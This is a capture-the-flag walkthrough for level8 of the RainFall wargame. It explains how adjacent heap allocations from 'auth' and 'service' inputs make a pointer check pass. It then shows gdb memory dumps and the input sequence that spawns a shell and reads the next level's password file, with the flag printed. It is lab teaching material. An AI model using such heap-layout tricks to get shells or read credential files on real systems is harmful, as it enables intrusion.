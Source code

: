 # Walkthrough level8

This program is a while loop who read stdin and do somethings according to the
input.

Our objective is to trigger the system function:

```c
if (strncmp(input, "login", 5) == 0) {
    if (auth + 32 == NULL)
        fwrite("Password:\n", 10, 1, stdout);
    else
        system("/bin/sh");
}
```

`auth` is a pointer on the heap but we cannot write 32 characters because of
this condition:

```c
if (strncmp(input, "auth ", 5) == 0) {
    auth = malloc(4);
    char *tmp = buffer + 5;
    size_t size = strlen(tmp);
    if (size <= 30)
        strcpy(auth, tmp);
}
```

`service` permit to allocate many characters without limit:

```c
if (strncmp(input, "service", 6) == 0) {
    service = strdup(buffer + 7);
}
```

To trigger system, we need to write 32 characters after auth
(heap start = `0x804a000`):

```bash
Starting program: /home/user/level8/level8
(nil), (nil)

(gdb) n
Single stepping until exit from function main,
which has no line number information.
auth AAAA
0x804a008, (nil)

Breakpoint 2, 0x08048596 in main ()
(gdb) x/16xw 0x804a000
0x804a000:      0x00000000      0x00000011      0x41414141      0x0000000a
0x804a010:      0x00000000      0x00020ff1      0x00000000      0x00000000
0x804a020:      0x00000000  --> 0x[00]000000    0x00000000      0x00000000
0x804a030:      0x00000000  |   0x00000000      0x00000000      0x00000000
                   [address to write]
(gdb) n
Single stepping until exit from function main,
which has no line number information.
serviceAAAAAAAAAAAAAAAA
0x804a008, 0x804a018

Breakpoint 2, 0x08048596 in main ()
(gdb) x/16xw 0x804a000
0x804a000:      0x00000000      0x00000011      0x41414141      0x0000000a
0x804a010:      0x00000000      0x00000019      0x41414141      0x41414141
0x804a020:      0x41414141  --> 0x[41]414141    0x0000000a      0x00020fd9
0x804a030:      0x00000000  |   0x00000000      0x00000000      0x00000000
                   [address is changed]
```

```bash
level8@RainFall:~$ ./level8
(nil), (nil)
auth
0x804a008, (nil)
service AAAAAAAAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a018
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
